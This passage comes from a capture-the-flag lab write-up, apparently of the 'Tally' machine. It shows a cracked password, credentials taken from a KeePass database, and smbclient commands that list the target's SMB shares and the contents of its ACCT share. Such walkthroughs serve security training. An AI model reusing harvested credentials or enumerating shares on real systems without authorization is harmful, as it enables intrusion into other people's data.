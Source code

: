 Tim’s password is *simplementeyo*.
Let’s open up the database with Keepass.  
We find a user and password.

```
Finance:Acc0unting 
```

Let’s check these credentials with smbclient.  

smbclient, An SMB client program for UNIX machines is included with the Samba distribution. It provides an ftp-like interface on the command line. You can use this utility to transfer files between a Windows 'server' and a Linux client.
[Full article](https://www.tldp.org/HOWTO/SMB-HOWTO-8.html)

```console
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Tally/ftp]─[root@Arthorias]─[1]─[3084]
╰─[:(] # smbclient -L \\\\10.10.10.59 -U Finance
Enter WORKGROUP\Finance's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ACCT            Disk      
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
Connection to 10.10.10.59 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Failed to connect with SMB1 -- no workgroup available

```

Let's access the **ACCT** directory.

```console
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations]─[root@Arthorias]─[0]─[3173]
╰─[:)] # smbclient \\\\10.10.10.59\\ACCT -U Finance
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\Finance's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Sep 18 01:58:18 2017
  ..                                  D        0  Mon Sep 18 01:58:18 2017
  Customers                           D        0  Sun Sep 17 16:28:40 2017
  Fees                                D        0  Mon Aug 28 17:20:52 2017
  Invoices                            D        0  Mon Aug 28 17:18:19 2017
  Jess                                D        0  Sun Sep 17 16:41:29 2017
  Payroll                             D        0  Mon Aug 28 17:13:32 2017
  Reports                             D        0  Fri Sep  1 16:50:11 2017
  Tax                                 D        0  Sun Sep 17 16:45:47 2017
  Transactions                        D        0  Wed Sep 13 15:57:44 2017
  zz_Archived                         D        0  Fri Sep 15 16:29:35 2017
  zz_Migration                        D        0  Sun Sep 17 16:49:13 2017

		8387839 blocks of size 4096. 676902 blocks available
```
First we find some SQL connection information inside the zz_Archived folder.
